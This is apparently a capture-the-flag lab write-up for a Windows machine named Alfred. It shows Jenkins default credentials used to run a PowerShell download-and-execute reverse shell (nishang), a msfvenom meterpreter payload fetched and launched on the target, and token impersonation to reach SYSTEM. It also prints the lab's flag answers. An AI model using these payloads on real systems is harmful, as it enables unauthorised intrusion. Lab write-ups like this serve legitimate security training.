


# Alfred

IP Address: 10.10.60.65

## Description

In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made change to it). After which, we'll use an interesting privilege escalation method to get full system access. 

## Flags

1. 79007a09481963edf2e1321abd9ae2a0
2. dff0f748678f280250f25a45b8046b4a

## Enumeration/Scanning

### Nmap:
```sh
sudo  nmap -Pn  -p1-10000 -vv -sC -oN alfred.nmap 10.10.253.237
# Nmap 7.92 scan initiated Wed Sep 28 21:16:47 2022 as: nmap -Pn -p1-10000 -vv -sC -oN alfred.nmap 10.10.253.237
Nmap scan report for 10.10.253.237
Host is up, received user-set (0.17s latency).
Scanned at 2022-09-28 21:16:59 PDT for 31s

PORT     STATE SERVICE       REASON
80/tcp   open  http          syn-ack ttl 127
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
3389/tcp open  ms-wbt-server syn-ack ttl 127
| ssl-cert: Subject: commonName=alfred
| Issuer: commonName=alfred
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2022-09-28T03:44:49
| Not valid after:  2023-03-30T03:44:49
| MD5:   f15a ae7e e244 e120 c763 a386 2219 e260
| SHA-1: 0bb8 058f dc67 c558 0564 b9f7 d48b 0289 98ef ca94
| -----BEGIN CERTIFICATE-----
| MIIC0DCCAbigAwIBAgIQIhDB6uMfHLBKikg4+ZpHMzANBgkqhkiG9w0BAQUFADAR
| MQ8wDQYDVQQDEwZhbGZyZWQwHhcNMjIwOTI4MDM0NDQ5WhcNMjMwMzMwMDM0NDQ5
| WjARMQ8wDQYDVQQDEwZhbGZyZWQwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEK
| AoIBAQC2TBp0E9a2bzlmG1Pw7fnOg3fuuSPa7Onj045hnmlWkK1ODN+iiG5/1cHZ
| Tn5mJkZI3fKj5Ng9IuA4xR5JHOb8SZ2aBGtRCnJnzI2MO61dZHXtkWvwyMjx6/5A
| vQM+A7BZMmxk/Gd1aQvJPbU/gp19ZBEhjESvNn0U8LR+4JHBUB6K/8XX1IfFFKZ6
| xlussnH1Zt6pu5gfQEuygI6nI0IHb8Uy2f99G5N0/4xqLh9u2cPPh6PJD9j2wElB
| WUMdLM6hDqPwclInQqf6LmFFgzrEIqaAGGs/QYZ45y4WlpJzpWK19FDV5MilCCkY
| R/RTQhQk6Xp47jnq0Je23oKP64QNAgMBAAGjJDAiMBMGA1UdJQQMMAoGCCsGAQUF
| BwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQUFAAOCAQEAX6vTZ3ux/N5qnJ2W
| gxiSjU4sLdqPGcU2Z70Got2eYSJPCNcmyVC+CHe/VkKTXjYTzVSQiMJ/oiYGB3ZF
| CjjgnuryaZ6LhgMTwhJU8oy5NAstg7akI/mA80JDYhn7JLEd47AL28qC+kmJDyx+
| 5jDDiB63H6IH3eejc0KjiKFUXNhcRrSdc9jZXXl7cFJuEDWlCqIWARjOmRxvf7ae
| ImnHil0vqjK6szH19XEpOyMReQM6DmkWezLzkAVPgmJQX1h4rTVXRDOwF03+aFXv
| 5SOJhpflFfXkBY1OtwkrWU++0HrQy+rW6nvzfG9vIEXKWJXEyUzMzPqVSrj0FGGE
| ATB0Sw==
|_-----END CERTIFICATE-----
8080/tcp open  http-proxy    syn-ack ttl 127
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Sep 28 21:17:30 2022 -- 1 IP address (1 host up) scanned in 43.14 seconds
```
### Web Server

#### Port 8080



**We noice that Using the default credentials (admin:admin), we can gain access to the web server.**

## Exploitation

Searching through this platform, we find [Jenkins](https://www.jenkins.io/doc/book/managing/cli/), giving us valuable information on using a CLI client (with our credentials) to execute commands on the machine.

```sh
java -jar jenkins-cli.jar -s http://10.10.253.237:8080/ -auth admin:admin who-am-i
Authenticated as: admin
Authorities:
  authenticated
```

However, this leads to a dead end. Continuing our search by clicking on project, then configure, we find a window allowing us to execute windows batch commands.

We can now upload a reverse shell payload. We will be using the `Invoke-PowershellTcp.ps1` shell from the [nishang](https://github.com/samratashok/nishang) repo. After starting a python server, we can upload our payload, start a `nc` listener, then execute!

#### Listener and Server

```sh
sudo python3 -m http.server 80
```

```sh
sudo nc -nvlp 4444
```

#### Payload

```
powershell iex (New-Object Net.WebClient).DownloadString(‘http://LOCAL_IP:80/Invoke-PowerShellTcp.ps1’);Invoke-PowerShellTcp -Reverse -IPAddress LOCAL_IP -Port 4444
```



#### Flag

```sh
$  nc -lvnp 4444                                                                                  1m 13s 08:24:28 PM
listening on [any] 4444 ...
connect to [10.18.57.77] from (UNKNOWN) [10.10.64.71] 49198
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project>whoami
alfred\bruce
PS C:\Program Files (x86)\Jenkins\workspace\project>

...

PS C:\Users\bruce\Desktop> dir


    Directory: C:\Users\bruce\Desktop
    
    
    Mode                LastWriteTime     Length Name                              
    ----                -------------     ------ ----                              
    -a---        10/25/2019  11:22 PM         32 user.txt                          
    
    
    PS C:\Users\bruce\Desktop> type user.txt
    79007a09481963edf2e1321abd9ae2a0
```


### Meterpreter

Now to set up a meterpreter shell to make privilege escalation easier.

Create the meterpreter payload.

```sh
$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
```

Set up a Server.

```sh
python3 -m http.server 80
```

Set up the handler in metasploit.

```sh
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run
```

Then execute!

```
PS C:\Program Files (x86)\Jenkins\workspace\project> powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.18.57.77:80/shell.exe','shell.exe')" 
```
```
PS C:\Program Files (x86)\Jenkins\workspace\project> Start-Process "shell-name.exe"
```

This should give us a meterpreter shell.

```
meterpreter >
```

### Privilege Escalation

Now that we have initial access, let's use token impersonation to gain system access.

Detailed information on tokens can be found [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
Detailed information on token impersonation can be found [here](https://www.exploit-db.com/papers/42556)

#### Privileges

```
C:\Program Files (x86)\Jenkins\workspace\project>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled
```

We see that SeDebugPrivilege and SeImpersonatePrivilege are enabled. Now to use incognito mode to exploit this.

```
meterpreter > load incognito
Loading extension incognito...Success.
```
Now we need to see what tokens are available.

```
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
             
             Delegation Tokens Available
             ========================================
             \
             BUILTIN\Administrators
             BUILTIN\Users
             NT AUTHORITY\Authenticated Users
             NT AUTHORITY\NTLM Authentication
             NT AUTHORITY\SERVICE
             NT AUTHORITY\This Organization
             NT AUTHORITY\WRITE RESTRICTED
             NT SERVICE\AppHostSvc
             NT SERVICE\AudioEndpointBuilder
             NT SERVICE\BFE
             NT SERVICE\CertPropSvc
             NT SERVICE\CscService
             NT SERVICE\Dnscache
             NT SERVICE\eventlog
             NT SERVICE\EventSystem
             NT SERVICE\FDResPub
             NT SERVICE\iphlpsvc
             NT SERVICE\LanmanServer
             NT SERVICE\MMCSS
             NT SERVICE\PcaSvc
             NT SERVICE\PlugPlay
             NT SERVICE\RpcEptMapper
             NT SERVICE\Schedule
             NT SERVICE\SENS
             NT SERVICE\SessionEnv
             NT SERVICE\Spooler
             NT SERVICE\sppsvc
             NT SERVICE\TrkWks
             NT SERVICE\TrustedInstaller
             NT SERVICE\UmRdpService
             NT SERVICE\UxSms
             NT SERVICE\Winmgmt
             NT SERVICE\WSearch
             NT SERVICE\wuauserv
             
             Impersonation Tokens Available
             ========================================
             NT AUTHORITY\NETWORK
             NT SERVICE\AudioSrv
             NT SERVICE\DcomLaunch
             NT SERVICE\Dhcp
             NT SERVICE\DPS
             NT SERVICE\lmhosts
             NT SERVICE\MpsSvc
             NT SERVICE\netprofm
             NT SERVICE\nsi
             NT SERVICE\PolicyAgent
             NT SERVICE\Power
             NT SERVICE\ShellHWDetection
             NT SERVICE\W32Time
             NT SERVICE\WdiServiceHost
             NT SERVICE\WinHttpAutoProxySvc
             NT SERVICE\wscsvc
```

#### Exploit

We can impersonate the BUILTIN\Administrators token using the `impersonate_token` command:

```
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
             [+] Delegation token available
             [+] Successfully impersonated user NT AUTHORITY\SYSTEM
```

Now to check our token using getuid:

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

We are currently PID 980, but can `migrate` to any process with the correct permissions,

```
meterpreter > ps

Process List
============

 PID   PPID  Name                 Arch  Session  User                          Path
 ---   ----  ----                 ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System               x64   0
 396   4     smss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 
 ...
 
 980   2044  shell.exe            x86   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\worksp
                                                                                ace\project\shell.exe
 ...
 
 2308  668   svchost.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 2384  772   WmiPrvSE.exe         x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\wbem\WmiPrvSE.exe
 2740  668   sppsvc.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
```

```
meterpreter > migrate 2308
[*] Migrating from 980 to 2308...
[*] Migration completed successfully.
```
#### Flag

Now just to find the flag!

```
meterpreter > shell
Process 1176 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>type C:\Windows\System32\config\root.txt
type C:\Windows\System32\config\root.txt
dff0f748678f280250f25a45b8046b4a
```

